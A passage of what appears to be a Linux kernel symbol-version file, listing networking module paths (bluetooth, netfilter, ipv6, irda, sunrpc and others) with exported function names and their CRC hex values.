    net/ax25/ax25 ax25cmp 0x5b5fef41
    net/ax25/ax25 ax2asc 0xd75839e6
    net/ax25/ax25 null_ax25_address 0x43621e18
    net/bluetooth/bluetooth baswap 0xcc1fb551
    net/bluetooth/bluetooth batostr 0xc2066af0
    net/bluetooth/bluetooth bt_accept_dequeue 0xb00e77ec
    net/bluetooth/bluetooth bt_accept_enqueue 0xc072a0a0
    net/bluetooth/bluetooth bt_accept_unlink 0xb3f48cf3
    net/bluetooth/bluetooth bt_class 0x4febb8b6
    net/bluetooth/bluetooth bt_err 0x7094f8ae
    net/bluetooth/bluetooth bt_sock_link 0x4fde526d
    net/bluetooth/bluetooth bt_sock_poll 0x97086543
    net/bluetooth/bluetooth bt_sock_recvmsg 0x24facf95
    net/bluetooth/bluetooth bt_sock_register 0xc70b248e
    net/bluetooth/bluetooth bt_sock_unlink 0x0bb0f615
    net/bluetooth/bluetooth bt_sock_unregister 0xf19294db
    net/bluetooth/bluetooth bt_sock_wait_state 0x98c9209f
    net/bluetooth/bluetooth hci_alloc_dev 0xff396b80
    net/bluetooth/bluetooth hci_conn_auth 0x84594244
    net/bluetooth/bluetooth hci_conn_change_link_key 0x1bf6b404
    net/bluetooth/bluetooth hci_conn_encrypt 0xefe856de
    net/bluetooth/bluetooth hci_conn_switch_role 0x4ae53177
    net/bluetooth/bluetooth hci_connect 0xa65550a0
    net/bluetooth/bluetooth hci_free_dev 0x19aedf81
    net/bluetooth/bluetooth hci_get_route 0xa6366ee5
    net/bluetooth/bluetooth hci_register_cb 0x054b528d
    net/bluetooth/bluetooth hci_register_dev 0xdeb7cf2a
    net/bluetooth/bluetooth hci_register_proto 0x91a8abc0
    net/bluetooth/bluetooth hci_resume_dev 0xbc69484d
    net/bluetooth/bluetooth hci_send_acl 0x21efc123
    net/bluetooth/bluetooth hci_send_sco 0x195d4651
    net/bluetooth/bluetooth hci_suspend_dev 0xf9f04f3a
    net/bluetooth/bluetooth hci_unregister_cb 0x2f11718f
    net/bluetooth/bluetooth hci_unregister_dev 0x99643316
    net/bluetooth/bluetooth hci_unregister_proto 0xbebf1dbe
    net/bluetooth/l2cap l2cap_load 0xfc31fe88
    net/bridge/bridge br_should_route_hook 0xd8f9f649
    net/bridge/netfilter/ebtables ebt_do_table 0xb1b822c3
    net/bridge/netfilter/ebtables ebt_register_match 0x780f70b7
    net/bridge/netfilter/ebtables ebt_register_table 0xc5f4d8f8
    net/bridge/netfilter/ebtables ebt_register_target 0x9e148b21
    net/bridge/netfilter/ebtables ebt_register_watcher 0x75a43adc
    net/bridge/netfilter/ebtables ebt_unregister_match 0x9fd66138
    net/bridge/netfilter/ebtables ebt_unregister_table 0x11f1f98a
    net/bridge/netfilter/ebtables ebt_unregister_target 0xed791633
    net/bridge/netfilter/ebtables ebt_unregister_watcher 0xcf3d9ded
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_li_hist_calc_i_mean 0xffff1ec4
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_li_hist_delete 0xc14edbd1
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_li_hist_interval_new 0xc88f598b
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_li_hist_new 0xed82b007
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_li_hist_purge 0xb03b9b3b
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_add_packet 0x3a18e70d
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_delete 0x33ad5e15
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_detect_loss 0x4e75fd53
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_find_data_packet 0x71ecc67f
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_new 0x0b616686
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_rx_hist_purge 0x9a1790d2
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_tx_hist_delete 0x90f3df52
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_tx_hist_find_entry 0x7824d7b3
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_tx_hist_new 0x0a630e87
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_tx_hist_purge 0xea9b81e8
    net/dccp/ccids/lib/dccp_tfrc_lib dccp_tx_hist_purge_older 0xded46fa7
    net/dccp/ccids/lib/dccp_tfrc_lib tfrc_calc_x 0x0a487ea5
    net/dccp/ccids/lib/dccp_tfrc_lib tfrc_calc_x_reverse_lookup 0x6c252d29
    net/dccp/dccp ccid_exit 0xf38f8238
    net/dccp/dccp ccid_init 0x2ea89648
    net/dccp/dccp ccid_register 0x345b8f81
    net/dccp/dccp ccid_unregister 0x0394f8e0
    net/dccp/dccp dccp_hashinfo 0x8fb40600
    net/dccp/dccp dccp_insert_option 0xf962ecd7
    net/dccp/dccp dccp_insert_option_elapsed_time 0xc953d9e1
    net/dccp/dccp dccp_insert_option_timestamp 0x46365bd2
    net/dccp/dccp dccp_packet_name 0x86be7924
    net/dccp/dccp dccp_send_ack 0x82183ad6
    net/dccp/dccp dccp_state_name 0x56ea266a
    net/dccp/dccp dccp_timestamp 0xece3045c
    net/ieee80211/ieee80211 alloc_ieee80211 0x6d1ce236
    net/ieee80211/ieee80211 escape_essid 0xa9fb135f
    net/ieee80211/ieee80211 free_ieee80211 0x69d00f60
    net/ieee80211/ieee80211 ieee80211_channel_to_index 0xf383495c
    net/ieee80211/ieee80211 ieee80211_freq_to_channel 0x27db598f
    net/ieee80211/ieee80211 ieee80211_get_channel 0x1f5367ca
    net/ieee80211/ieee80211 ieee80211_get_channel_flags 0x3c570a38
    net/ieee80211/ieee80211 ieee80211_get_geo 0x80b2473a
    net/ieee80211/ieee80211 ieee80211_is_valid_channel 0x02ac9607
    net/ieee80211/ieee80211 ieee80211_rx 0x6d6a4daf
    net/ieee80211/ieee80211 ieee80211_rx_mgt 0xd2347207
    net/ieee80211/ieee80211 ieee80211_set_geo 0x7cf02c2c
    net/ieee80211/ieee80211 ieee80211_tx_frame 0xc15cbc7e
    net/ieee80211/ieee80211 ieee80211_txb_free 0x02a6868d
    net/ieee80211/ieee80211 ieee80211_wx_get_auth 0x4f324763
    net/ieee80211/ieee80211 ieee80211_wx_get_encode 0x85db039c
    net/ieee80211/ieee80211 ieee80211_wx_get_encodeext 0x268fcc31
    net/ieee80211/ieee80211 ieee80211_wx_get_scan 0x279d8cc8
    net/ieee80211/ieee80211 ieee80211_wx_set_auth 0xe6ef4412
    net/ieee80211/ieee80211 ieee80211_wx_set_encode 0x075e7a19
    net/ieee80211/ieee80211 ieee80211_wx_set_encodeext 0xa25ea0c8
    net/ieee80211/ieee80211_crypt ieee80211_crypt_deinit_entries 0x879450af
    net/ieee80211/ieee80211_crypt ieee80211_crypt_deinit_handler 0x279e265f
    net/ieee80211/ieee80211_crypt ieee80211_crypt_delayed_deinit 0xcaa6c1d4
    net/ieee80211/ieee80211_crypt ieee80211_crypt_quiescing 0x186dae8e
    net/ieee80211/ieee80211_crypt ieee80211_get_crypto_ops 0x8a2949d6
    net/ieee80211/ieee80211_crypt ieee80211_register_crypto_ops 0x89296379
    net/ieee80211/ieee80211_crypt ieee80211_unregister_crypto_ops 0xf63a9ff2
    net/ieee80211/softmac/ieee80211softmac alloc_ieee80211softmac 0xa7fefd93
    net/ieee80211/softmac/ieee80211softmac free_ieee80211softmac 0xfd390c8e
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_clear_pending_work 0x2d0aa198
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_fragment_lost 0xadc4b183
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_notify_gfp 0x6e017a40
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_scan_finished 0xa57dacff
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_set_rates 0x76acb948
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_start 0x0366b585
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_stop 0x8fe3962c
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_get_essid 0xa8b17b78
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_get_genie 0x3ac8bc70
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_get_rate 0x70f83427
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_get_scan_results 0xa98b89e0
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_get_wap 0x915d22f6
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_set_essid 0x8f1ae7d1
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_set_genie 0x1d6320d9
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_set_rate 0xd9253756
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_set_wap 0xf0f0001a
    net/ieee80211/softmac/ieee80211softmac ieee80211softmac_wx_trigger_scan 0xec5acbe7
    net/ieee80211_1_1_13/ieee80211_1_1_13 alloc_ieee80211_1_1_13 0xf5424583
    net/ieee80211_1_1_13/ieee80211_1_1_13 free_ieee80211_1_1_13 0xb19d6dee
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_channel_to_index 0x6c340eac
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_freq_to_channel 0xdd8e883b
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_get_channel 0xa8509aa0
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_get_channel_flags 0xc98a46f0
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_get_geo 0x508d95cd
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_is_valid_channel 0xa7d31c1d
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_rx 0x2f89c92c
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_rx_mgt 0xc1747073
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_set_geo 0xa5b7a9fb
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_tx_frame 0xc278c474
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_txb_free 0xee8c85c0
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_get_auth 0x186c61c6
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_get_encode 0x63b0426d
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_get_encodeext 0x6e28090c
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_get_scan 0xa2e9b156
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_set_auth 0xb5a36cee
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_set_encode 0x08068150
    net/ieee80211_1_1_13/ieee80211_1_1_13 ieee80211_1_1_13_wx_set_encodeext 0x804eed90
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_crypt_deinit_entries 0xbd5ce3b3
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_crypt_deinit_handler 0x51d4d7a6
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_crypt_delayed_deinit 0x7488e45f
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_crypt_quiescing 0x304096ae
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_get_crypto_ops 0x36043a32
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_register_crypto_ops 0x06e554dc
    net/ieee80211_1_1_13/ieee80211_1_1_13_crypt ieee80211_1_1_13_unregister_crypto_ops 0xbfc42f38
    net/ipv4/ipvs/ip_vs ip_vs_conn_in_get 0x6e4b638d
    net/ipv4/ipvs/ip_vs ip_vs_conn_new 0xfc4be86e
    net/ipv4/ipvs/ip_vs ip_vs_conn_out_get 0x7f8e7ee8
    net/ipv4/ipvs/ip_vs ip_vs_conn_put 0xb550eb2b
    net/ipv4/ipvs/ip_vs ip_vs_make_skb_writable 0xcecd115f
    net/ipv4/ipvs/ip_vs ip_vs_proto_name 0xa1dbc2d8
    net/ipv4/ipvs/ip_vs ip_vs_skb_replace 0x0a9414cc
    net/ipv4/ipvs/ip_vs ip_vs_tcp_conn_listen 0x1d6ebbe0
    net/ipv4/ipvs/ip_vs register_ip_vs_app 0x1831c375
    net/ipv4/ipvs/ip_vs register_ip_vs_app_inc 0xafcad0d7
    net/ipv4/ipvs/ip_vs register_ip_vs_scheduler 0x68bae688
    net/ipv4/ipvs/ip_vs unregister_ip_vs_app 0xb085d06b
    net/ipv4/ipvs/ip_vs unregister_ip_vs_scheduler 0x3bf9817a
    net/ipv4/netfilter/arp_tables arpt_do_table 0x9944d6a8
    net/ipv4/netfilter/arp_tables arpt_register_table 0x762d164d
    net/ipv4/netfilter/arp_tables arpt_register_target 0xe805ed4b
    net/ipv4/netfilter/arp_tables arpt_unregister_table 0x7f861f09
    net/ipv4/netfilter/arp_tables arpt_unregister_target 0x6aedb0cf
    net/ipv4/netfilter/ip_conntrack __ip_conntrack_expect_find 0x4aa06c41
    net/ipv4/netfilter/ip_conntrack __ip_conntrack_find 0x602d5e21
    net/ipv4/netfilter/ip_conntrack __ip_conntrack_helper_find_byname 0xa0c90d93
    net/ipv4/netfilter/ip_conntrack __ip_conntrack_proto_find 0x928ea334
    net/ipv4/netfilter/ip_conntrack __ip_ct_refresh_acct 0x4b3fe58b
    net/ipv4/netfilter/ip_conntrack invert_tuplepr 0x4a3e4b8a
    net/ipv4/netfilter/ip_conntrack ip_conntrack_alloc 0x55265a9a
    net/ipv4/netfilter/ip_conntrack ip_conntrack_alter_reply 0xed4efc45
    net/ipv4/netfilter/ip_conntrack ip_conntrack_destroyed 0xf5d2d671
    net/ipv4/netfilter/ip_conntrack ip_conntrack_expect_alloc 0x4695302e
    net/ipv4/netfilter/ip_conntrack ip_conntrack_expect_find 0x12de84ee
    net/ipv4/netfilter/ip_conntrack ip_conntrack_expect_list 0x62ffb0b6
    net/ipv4/netfilter/ip_conntrack ip_conntrack_expect_put 0x615bc0bc
    net/ipv4/netfilter/ip_conntrack ip_conntrack_expect_related 0xd0de0ef4
    net/ipv4/netfilter/ip_conntrack ip_conntrack_find_get 0xf501a301
    net/ipv4/netfilter/ip_conntrack ip_conntrack_flush 0xcdb1850a
    net/ipv4/netfilter/ip_conntrack ip_conntrack_free 0xf101491b
    net/ipv4/netfilter/ip_conntrack ip_conntrack_hash 0x386855a5
    net/ipv4/netfilter/ip_conntrack ip_conntrack_hash_insert 0xabc36cfd
    net/ipv4/netfilter/ip_conntrack ip_conntrack_helper_find_get 0x283a3856
    net/ipv4/netfilter/ip_conntrack ip_conntrack_helper_put 0xb1f7279c
    net/ipv4/netfilter/ip_conntrack ip_conntrack_helper_register 0x6e18ce6a
    net/ipv4/netfilter/ip_conntrack ip_conntrack_helper_unregister 0x36b405bf
    net/ipv4/netfilter/ip_conntrack ip_conntrack_htable_size 0x8ef8af4c
    net/ipv4/netfilter/ip_conntrack ip_conntrack_lock 0xa2834c44
    net/ipv4/netfilter/ip_conntrack ip_conntrack_proto_find_get 0xa608bfb5
    net/ipv4/netfilter/ip_conntrack ip_conntrack_proto_put 0x439736a7
    net/ipv4/netfilter/ip_conntrack ip_conntrack_protocol_register 0xdf4771b8
    net/ipv4/netfilter/ip_conntrack ip_conntrack_protocol_unregister 0x3e6dae55
    net/ipv4/netfilter/ip_conntrack ip_conntrack_tcp_update 0xd2d05fa6
    net/ipv4/netfilter/ip_conntrack ip_conntrack_tuple_taken 0xcba1e026
    net/ipv4/netfilter/ip_conntrack ip_conntrack_unexpect_related 0xa0a9facd
    net/ipv4/netfilter/ip_conntrack ip_conntrack_untracked 0xa1b2c21d
    net/ipv4/netfilter/ip_conntrack ip_ct_gather_frags 0xc4ad1e6f
    net/ipv4/netfilter/ip_conntrack ip_ct_get_tuple 0xbfa13a7a
    net/ipv4/netfilter/ip_conntrack ip_ct_iterate_cleanup 0xed7081d4
    net/ipv4/netfilter/ip_conntrack ip_ct_log_invalid 0x74ad6de3
    net/ipv4/netfilter/ip_conntrack ip_ct_port_nfattr_to_tuple 0x8aebc0b9
    net/ipv4/netfilter/ip_conntrack ip_ct_port_tuple_to_nfattr 0xdb67b944
    net/ipv4/netfilter/ip_conntrack ip_ct_remove_expectations 0x500ccc75
    net/ipv4/netfilter/ip_conntrack ip_ct_unlink_expect 0xc16f90a8
    net/ipv4/netfilter/ip_conntrack need_ip_conntrack 0x6012c55f
    net/ipv4/netfilter/ip_conntrack_amanda ip_nat_amanda_hook 0x3ca6377c
    net/ipv4/netfilter/ip_conntrack_ftp ip_nat_ftp_hook 0xee1cbf49
    net/ipv4/netfilter/ip_conntrack_irc ip_nat_irc_hook 0x3782b5bf
    net/ipv4/netfilter/ip_conntrack_pptp ip_ct_gre_keymap_add 0xfd5e7ba0
    net/ipv4/netfilter/ip_conntrack_pptp ip_ct_gre_keymap_destroy 0xd4011af1
    net/ipv4/netfilter/ip_conntrack_pptp ip_nat_pptp_hook_exp_gre 0x6f5dc891
    net/ipv4/netfilter/ip_conntrack_pptp ip_nat_pptp_hook_expectfn 0xdd446eb2
    net/ipv4/netfilter/ip_conntrack_pptp ip_nat_pptp_hook_inbound 0xda8e18c9
    net/ipv4/netfilter/ip_conntrack_pptp ip_nat_pptp_hook_outbound 0x20b8c66d
    net/ipv4/netfilter/ip_conntrack_tftp ip_nat_tftp_hook 0xd838ec43
    net/ipv4/netfilter/ip_nat ip_nat_cheat_check 0x1e4e73a8
    net/ipv4/netfilter/ip_nat ip_nat_follow_master 0xbecef1b8
    net/ipv4/netfilter/ip_nat ip_nat_icmp_reply_translation 0x109bfd9c
    net/ipv4/netfilter/ip_nat ip_nat_mangle_tcp_packet 0xdf46614a
    net/ipv4/netfilter/ip_nat ip_nat_mangle_udp_packet 0x449632e7
    net/ipv4/netfilter/ip_nat ip_nat_packet 0xb9d39306
    net/ipv4/netfilter/ip_nat ip_nat_port_nfattr_to_range 0x1e9ae9f4
    net/ipv4/netfilter/ip_nat ip_nat_port_range_to_nfattr 0xa2f55e71
    net/ipv4/netfilter/ip_nat ip_nat_proto_find_get 0x823f5d9b
    net/ipv4/netfilter/ip_nat ip_nat_proto_put 0xa39d7f66
    net/ipv4/netfilter/ip_nat ip_nat_protocol_register 0x4b4c9603
    net/ipv4/netfilter/ip_nat ip_nat_protocol_unregister 0x1dfc9789
    net/ipv4/netfilter/ip_nat ip_nat_seq_adjust 0xb518232f
    net/ipv4/netfilter/ip_nat ip_nat_setup_info 0x13fa2d34
    net/ipv4/netfilter/ip_nat ip_nat_used_tuple 0xa0376ea8
    net/ipv4/netfilter/ip_tables ipt_do_table 0x8fd426cb
    net/ipv4/netfilter/ip_tables ipt_find_target 0x720b3cbf
    net/ipv4/netfilter/ip_tables ipt_register_match 0xcdfc837a
    net/ipv4/netfilter/ip_tables ipt_register_table 0xd41834e1
    net/ipv4/netfilter/ip_tables ipt_register_target 0x4dc5619a
    net/ipv4/netfilter/ip_tables ipt_unregister_match 0x861d51bb
    net/ipv4/netfilter/ip_tables ipt_unregister_table 0xe0c44bda
    net/ipv4/netfilter/ip_tables ipt_unregister_target 0xec5e367d
    net/ipv4/xfrm4_tunnel xfrm4_tunnel_deregister 0x1db5ff80
    net/ipv4/xfrm4_tunnel xfrm4_tunnel_register 0x88e74a76
    net/ipv6/ipv6 __ipv6_addr_type 0x15792c26
    net/ipv6/ipv6 addrconf_lock 0x04e387a8
    net/ipv6/ipv6 icmpv6_err_convert 0xb905ad82
    net/ipv6/ipv6 icmpv6_send 0xfd1c0954
    net/ipv6/ipv6 icmpv6_statistics 0x30123eb5
    net/ipv6/ipv6 in6_dev_finish_destroy 0xf931ab8c
    net/ipv6/ipv6 inet6_add_protocol 0x7f8a5dca
    net/ipv6/ipv6 inet6_bind 0x01858464
    net/ipv6/ipv6 inet6_del_protocol 0x6e428d58
    net/ipv6/ipv6 inet6_getname 0x93f743c1
    net/ipv6/ipv6 inet6_ioctl 0x08997c13
    net/ipv6/ipv6 inet6_register_protosw 0x57d9e626
    net/ipv6/ipv6 inet6_release 0x9c67bf60
    net/ipv6/ipv6 inet6_unregister_protosw 0x1b67132c
    net/ipv6/ipv6 ip6_route_me_harder 0xe0db51be
    net/ipv6/ipv6 ip6_route_output 0x83ad440c
    net/ipv6/ipv6 ip6_xmit 0x5715c408
    net/ipv6/ipv6 ipv6_chk_addr 0x269b323c
    net/ipv6/ipv6 ipv6_get_saddr 0xb012d90a
    net/ipv6/ipv6 ipv6_getsockopt 0xfba3e1f0
    net/ipv6/ipv6 ipv6_push_nfrag_opts 0xc936c465
    net/ipv6/ipv6 ipv6_setsockopt 0x16da2f17
    net/ipv6/ipv6 ndisc_mc_map 0xcd3914fc
    net/ipv6/ipv6 register_inet6addr_notifier 0xce19bac5
    net/ipv6/ipv6 rt6_lookup 0x8280eaf0
    net/ipv6/ipv6 unregister_inet6addr_notifier 0x538383c0
    net/ipv6/ipv6 xfrm6_rcv 0x9e9117b4
    net/ipv6/ipv6 xfrm6_rcv_spi 0x60013cb3
    net/ipv6/netfilter/ip6_tables ip6t_do_table 0xd09022fe
    net/ipv6/netfilter/ip6_tables ip6t_ext_hdr 0xb8bddf33
    net/ipv6/netfilter/ip6_tables ip6t_register_match 0xdef4a600
    net/ipv6/netfilter/ip6_tables ip6t_register_table 0x8c7a4808
    net/ipv6/netfilter/ip6_tables ip6t_register_target 0x447ed054
    net/ipv6/netfilter/ip6_tables ip6t_unregister_match 0x4012fa61
    net/ipv6/netfilter/ip6_tables ip6t_unregister_table 0x38a8e1c6
    net/ipv6/netfilter/ip6_tables ip6t_unregister_target 0x8100cf05
    net/ipv6/netfilter/ip6_tables ipv6_find_hdr 0x13f7f3c6
    net/ipv6/xfrm6_tunnel xfrm6_tunnel_alloc_spi 0x5c0ff22c
    net/ipv6/xfrm6_tunnel xfrm6_tunnel_deregister 0x03c40d0d
    net/ipv6/xfrm6_tunnel xfrm6_tunnel_free_spi 0xb656c67d
    net/ipv6/xfrm6_tunnel xfrm6_tunnel_register 0x321528a2
    net/ipv6/xfrm6_tunnel xfrm6_tunnel_spi_lookup 0x01df0295
    net/irda/ircomm/ircomm ircomm_close 0xd8307d57
    net/irda/ircomm/ircomm ircomm_connect_request 0xae4bbf8a
    net/irda/ircomm/ircomm ircomm_connect_response 0x4ba5846b
    net/irda/ircomm/ircomm ircomm_control_request 0x83963a0d
    net/irda/ircomm/ircomm ircomm_data_request 0xb3ce6c14
    net/irda/ircomm/ircomm ircomm_disconnect_request 0x165601a7
    net/irda/ircomm/ircomm ircomm_flow_request 0x10e1981b
    net/irda/ircomm/ircomm ircomm_open 0x9ef717ab
    net/irda/irda alloc_irdadev 0x062f74cb
    net/irda/irda async_unwrap_char 0x24618312
    net/irda/irda async_wrap_skb 0x7491134d
    net/irda/irda hashbin_delete 0x94a8156e
    net/irda/irda hashbin_find 0xe0acf0d4
    net/irda/irda hashbin_get_first 0x29783db6
    net/irda/irda hashbin_get_next 0x5f261aef
    net/irda/irda hashbin_insert 0x5861b834
    net/irda/irda hashbin_lock_find 0xd627dc1a
    net/irda/irda hashbin_new 0x543a6db5
    net/irda/irda hashbin_remove 0xb7884205
    net/irda/irda hashbin_remove_this 0x7f933922
    net/irda/irda irda_debug 0x38a20e5b
    net/irda/irda irda_device_dongle_cleanup 0x8f106793
    net/irda/irda irda_device_dongle_init 0x47744b83
    net/irda/irda irda_device_register_dongle 0x6b677f2f
    net/irda/irda irda_device_set_media_busy 0xca66ae4f
    net/irda/irda irda_device_unregister_dongle 0x5073b495
    net/irda/irda irda_init_max_qos_capabilies 0x6b043eba
    net/irda/irda irda_notify_init 0xd0e8faf4
    net/irda/irda irda_param_extract_all 0x993ad14b
    net/irda/irda irda_param_insert 0x2036ad06
    net/irda/irda irda_param_pack 0x91815586
    net/irda/irda irda_qos_bits_to_value 0x448b8aaa
    net/irda/irda irda_setup_dma 0xd6deeaae
    net/irda/irda irda_task_delete 0x50f20932
    net/irda/irda irda_task_execute 0xe6d6161f
    net/irda/irda irda_task_next_state 0xfbf473ac
    net/irda/irda iriap_close 0x11382db2
    net/irda/irda iriap_getvaluebyclass_request 0x68714c28
    net/irda/irda iriap_open 0xa6b51def
    net/irda/irda irias_add_integer_attrib 0xc10a5281
    net/irda/irda irias_add_octseq_attrib 0x550a5e27
    net/irda/irda irias_add_string_attrib 0x18edd399
    net/irda/irda irias_delete_object 0x89136cd1
    net/irda/irda irias_delete_value 0xb9394173
    net/irda/irda irias_find_attrib 0x45a03a53
    net/irda/irda irias_find_object 0xa26f32f8
    net/irda/irda irias_insert_object 0x980fe568
    net/irda/irda irias_new_integer_value 0x06a3ee58
    net/irda/irda irias_new_object 0xe1a50c6f
    net/irda/irda irias_new_octseq_value 0x591d1bbd
    net/irda/irda irias_new_string_value 0x38dde4e1
    net/irda/irda irias_object_change_attribute 0xbcd3ef13
    net/irda/irda irlap_close 0xbc5f22da
    net/irda/irda irlap_open 0xa2b06a56
    net/irda/irda irlmp_close_lsap 0x6b7dff18
    net/irda/irda irlmp_connect_request 0xb531ae05
    net/irda/irda irlmp_connect_response 0x4b482e5c
    net/irda/irda irlmp_data_request 0x4ee07c53
    net/irda/irda irlmp_disconnect_request 0xe0b9e1c8
    net/irda/irda irlmp_discovery_request 0xbe40ace9
    net/irda/irda irlmp_get_discoveries 0xedd521c2
    net/irda/irda irlmp_open_lsap 0x3703b118
    net/irda/irda irlmp_register_client 0x7042bc54
    net/irda/irda irlmp_register_service 0x07d3647c
    net/irda/irda irlmp_service_to_hint 0xde4c6b3c
    net/irda/irda irlmp_unregister_client 0x763e54a4
    net/irda/irda irlmp_unregister_service 0x46c1c4a2
    net/irda/irda irlmp_update_client 0x7957f728
    net/irda/irda irttp_close_tsap 0x5a1224c5
    net/irda/irda irttp_connect_request 0xa5317037
    net/irda/irda irttp_connect_response 0x20b983fe
    net/irda/irda irttp_data_request 0x65930514
    net/irda/irda irttp_disconnect_request 0xcf85db10
    net/irda/irda irttp_dup 0xd63c41b8
    net/irda/irda irttp_flow_request 0x49dde93b
    net/irda/irda irttp_open_tsap 0x0ad91b52
    net/irda/irda irttp_udata_request 0x95254cd6
    net/irda/irda proc_irda 0x6103ee6c
    net/lapb/lapb lapb_connect_request 0xd70772bd
    net/lapb/lapb lapb_data_received 0xfbadc367
    net/lapb/lapb lapb_data_request 0xd2cb0b70
    net/lapb/lapb lapb_disconnect_request 0xc363d44d
    net/lapb/lapb lapb_getparms 0x67955903
    net/lapb/lapb lapb_register 0x2401015c
    net/lapb/lapb lapb_setparms 0xb62dfb3b
    net/lapb/lapb lapb_unregister 0xec12be42
    net/netfilter/nfnetlink __nfa_fill 0x754aa94f
    net/netfilter/nfnetlink nfattr_parse 0xef509d51
    net/netfilter/nfnetlink nfnetlink_send 0xe7e5ed78
    net/netfilter/nfnetlink nfnetlink_subsys_register 0x5f5c1f80
    net/netfilter/nfnetlink nfnetlink_subsys_unregister 0x185dbe58
    net/netfilter/nfnetlink nfnetlink_unicast 0x9737a9ee
    net/rxrpc/rxrpc rxrpc_add_service 0x156f11ef
    net/rxrpc/rxrpc rxrpc_call_abort 0x16c05fde
    net/rxrpc/rxrpc rxrpc_call_read_data 0x7a16593f
    net/rxrpc/rxrpc rxrpc_call_write_data 0x07f9ae84
    net/rxrpc/rxrpc rxrpc_create_call 0x93b4c8d3
    net/rxrpc/rxrpc rxrpc_create_connection 0xdd661050
    net/rxrpc/rxrpc rxrpc_create_transport 0x9e98c97b
    net/rxrpc/rxrpc rxrpc_del_service 0x9c9b522a
    net/rxrpc/rxrpc rxrpc_put_call 0x682cb307
    net/rxrpc/rxrpc rxrpc_put_connection 0x90dfeac0
    net/rxrpc/rxrpc rxrpc_put_transport 0xb9d22e31
    net/sunrpc/auth_gss/auth_rpcgss g_make_token_header 0x00c52ef5
    net/sunrpc/auth_gss/auth_rpcgss g_token_size 0xb5dea7ef
    net/sunrpc/auth_gss/auth_rpcgss g_verify_token_header 0xf8b2ff6e
    net/sunrpc/auth_gss/auth_rpcgss gss_decrypt_xdr_buf 0x6b61ae58
    net/sunrpc/auth_gss/auth_rpcgss gss_encrypt_xdr_buf 0xf6bc1587
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_get 0x4260d458
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_get_by_name 0x0488ec22
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_get_by_pseudoflavor 0x7283ee22
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_put 0x5b341c07
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_register 0x817a2dbb
    net/sunrpc/auth_gss/auth_rpcgss gss_mech_unregister 0x3f9250d1
    net/sunrpc/auth_gss/auth_rpcgss gss_pseudoflavor_to_service 0xdea7ff11
    net/sunrpc/auth_gss/auth_rpcgss gss_service_to_auth_domain_name 0x94a59abc
    net/sunrpc/auth_gss/auth_rpcgss krb5_decrypt 0x5dcc5ad8
    net/sunrpc/auth_gss/auth_rpcgss krb5_encrypt 0xaab7b8f7
    net/sunrpc/auth_gss/auth_rpcgss make_checksum 0x74ea3351
    net/sunrpc/auth_gss/auth_rpcgss print_hexl 0x4c2f4b6d
    net/sunrpc/auth_gss/auth_rpcgss svcauth_gss_register_pseudoflavor 0x8d1a827e
    net/sunrpc/sunrpc auth_domain_find 0xce9b7a1f
